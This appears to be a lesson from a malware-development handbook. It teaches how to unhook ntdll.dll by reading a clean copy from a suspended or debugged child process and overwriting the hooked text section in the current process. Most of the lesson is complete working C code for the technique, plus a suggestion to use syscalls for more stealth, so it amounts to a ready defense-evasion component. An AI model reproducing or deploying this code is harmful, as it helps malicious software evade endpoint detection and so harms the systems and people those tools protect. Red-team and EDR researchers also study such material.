






Introduction
An alternative method to unhook ntdll.dll involves reading it from a suspended process. This works because EDRs require a running process to install their hooks and therefore a process created in a suspended state, will contain a clean ntdll.dll image allowing for the text section of the current process to be substituted with that of the suspended one.
During a typical process startup, the Windows Loader will load the executable image (e.g. notepad.exe) before proceeding to map the ntdll.dll image, followed by all of the process's DLL dependencies. However, creating a process in a suspended state results in only ntdll.dll being mapped. This works if the process is created as a debugged process as well which is shown in the image below via Process Hacker.

Getting The Required Information
To retrieve ntdll.dll from a remote process, it is necessary to determine the base address where NTDLL is mapped to. This process is simpler than it may initially appear and has already been carried out in the Remote Function Stomping Injection module. Since DLLs share the same base address, the local base address of ntdll.dll will be the same as the remote base address of it, this is shown in the following image by viewing NTDLL in 3 separate processes.

Therefore when any process is created, including child processes, in a suspended state, its ntdll.dll base address is known in advance. However, its size is not known and will need to be calculated by parsing the PE headers of the local ntdll.dll image and accessing its OptionalHeader.SizeOfImage element which contains the size of the image. For this reason, the following function GetNtdllSizeFromBaseAddress is created, which has one parameter, pNtdllModule, that will be the base address of an image (i.e. ntdll.dll) to fetch its size.
The pNtdllModule parameter can be supplied using the FetchLocalNtdllBaseAddress function which was used in previous NTDLL unhooking modules to retrieve the base address of the ntdll.dll image.
SIZE_T GetNtdllSizeFromBaseAddress(IN PBYTE pNtdllModule) {
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pNtdllModule;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return NULL;
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pNtdllModule + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
return pImgNtHdrs->OptionalHeader.SizeOfImage;
}PVOID FetchLocalNtdllBaseAddress() {
#ifdef _WIN64
PPEB pPeb = (PPEB)__readgsqword(0x60);
#elif _WIN32
PPEB pPeb = (PPEB)__readfsdword(0x30);
#endif // _WIN64// Reaching to the 'ntdll.dll' module directly (we know its the 2nd image after 'SuspendedProcessUnhooking.exe')
// 0x10 is = sizeof(LIST_ENTRY)
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
return pLdr->DllBase;
}Creating A Suspended Process
This has been performed several times throughout the handbook by using CreateProcessA with the CREATE_SUSPENDED or DEBUG_PROCESS flags. In the code below, the DEBUG_PROCESS flag will be used.
After the process is created, ReadProcessMemory is used to read the ntdll.dll image. The process is then detached using the DebugActiveProcessStop WinAPI and then terminated with the TerminateProcess WinAPI. Note that the process won't be terminated if it's not detached first.
If the CREATE_SUSPENDED flag was used then replace the DebugActiveProcessStop WinAPI with ResumeThread.
The above logic is illustrated programmatically in the following ReadNtdllFromASuspendedProcess function.
BOOL ReadNtdllFromASuspendedProcess(IN LPCSTR lpProcessName, OUT PVOID* ppNtdllBuf) {
CHAR cWinPath[MAX_PATH / 2] = { 0 };
CHAR cProcessPath[MAX_PATH] = { 0 };
PVOID pNtdllModule = FetchLocalNtdllBaseAddress();
PBYTE pNtdllBuffer = NULL;
SIZE_T sNtdllSize = NULL,
sNumberOfBytesRead = NULL;
STARTUPINFO Si = { 0 };
PROCESS_INFORMATION Pi = { 0 };
// cleaning the structs (setting elements values to 0)
RtlSecureZeroMemory(&Si, sizeof(STARTUPINFO));
RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
// setting the size of the structure
Si.cb = sizeof(STARTUPINFO);
if (GetWindowsDirectoryA(cWinPath, sizeof(cWinPath)) == 0) {
printf("[!] GetWindowsDirectoryA Failed With Error : %d \n", GetLastError());
goto _EndOfFunc;
}
// 'sprintf_s' is a more secure version than 'sprintf'
sprintf_s(cProcessPath, sizeof(cProcessPath), "%s\\System32\\%s", cWinPath, lpProcessName);
if (!CreateProcessA(
NULL,
cProcessPath,
NULL,
NULL,
FALSE,
DEBUG_PROCESS, // Substitute of CREATE_SUSPENDED
NULL,
NULL,
&Si,
&Pi)) {
printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
goto _EndOfFunc;
}
// allocating enough memory to read ntdll from the remote process
sNtdllSize = GetNtdllSizeFromBaseAddress((PBYTE)pNtdllModule);
if (!sNtdllSize)
goto _EndOfFunc;
pNtdllBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sNtdllSize);
if (!pNtdllBuffer)
goto _EndOfFunc;
// reading ntdll.dll
if (!ReadProcessMemory(Pi.hProcess, pNtdllModule, pNtdllBuffer, sNtdllSize, &sNumberOfBytesRead) || sNumberOfBytesRead != sNtdllSize) {
printf("[!] ReadProcessMemory Failed with Error : %d \n", GetLastError());
printf("[i] Read %d of %d Bytes \n", sNumberOfBytesRead, sNtdllSize);
goto _EndOfFunc;
}
*ppNtdllBuf = pNtdllBuffer;
// terminating the process
if (DebugActiveProcessStop(Pi.dwProcessId) && TerminateProcess(Pi.hProcess, 0)) {
// process terminated successfully
}
_EndOfFunc:
if (Pi.hProcess)
CloseHandle(Pi.hProcess);
if (Pi.hThread)
CloseHandle(Pi.hThread);
if (*ppNtdllBuf == NULL)
return FALSE;
else
return TRUE;
}Putting It All Together
Once a fresh copy of ntdll.dll has been successfully retrieved, the next step is to overwrite the hooked text section with the clean one. This is achieved using the ReplaceNtdllTxtSection function, as demonstrated in previous modules.
Note that the unhooked copy of ntdll.dll was read from a memory region where it was mapped, being the suspended process's address space. This means that the offset to the text section of the clean NTDLL file is IMAGE_SECTION_HEADER.VirtualAddress (4096).
BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {
PVOID pLocalNtdll = (PVOID)FetchLocalNtdllBaseAddress();
// getting the dos header
PIMAGE_DOS_HEADER pLocalDosHdr = (PIMAGE_DOS_HEADER)pLocalNtdll;
if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return FALSE;
// getting the nt headers
PIMAGE_NT_HEADERS pLocalNtHdrs = (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return FALSE;
PVOID pLocalNtdllTxt = NULL, // local hooked text section base address
pRemoteNtdllTxt = NULL; // the unhooked text section base address
SIZE_T sNtdllTxtSize = NULL; // the size of the text section
// getting the text section
PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);
for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {
// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
pLocalNtdllTxt = (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + pSectionHeader[i].VirtualAddress);
sNtdllTxtSize = pSectionHeader[i].Misc.VirtualSize;
break;
}
}
//---------------------------------------------------------------------------------------------------------------------------
// small check to verify that all the required information is retrieved
if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
return FALSE;
// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
return FALSE;
//---------------------------------------------------------------------------------------------------------------------------
DWORD dwOldProtection = NULL;
// making the text section writable and executable
if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
return FALSE;
}
// copying the new text section
memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);
// rrestoring the old memory protection
if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Improving The Implementation
The current implementation unhooks ntdll.dll using WinAPIs. For a stealthier implementation, direct or indirect syscalls should be used to perform unhooking. This will be left as an objective for the reader.
Demo
A suspended child process with PID 6412.

The hooked ntdll.dll text section to be replaced.

The text section base address of the unhooked ntdll.dll.

Replacing the text section.
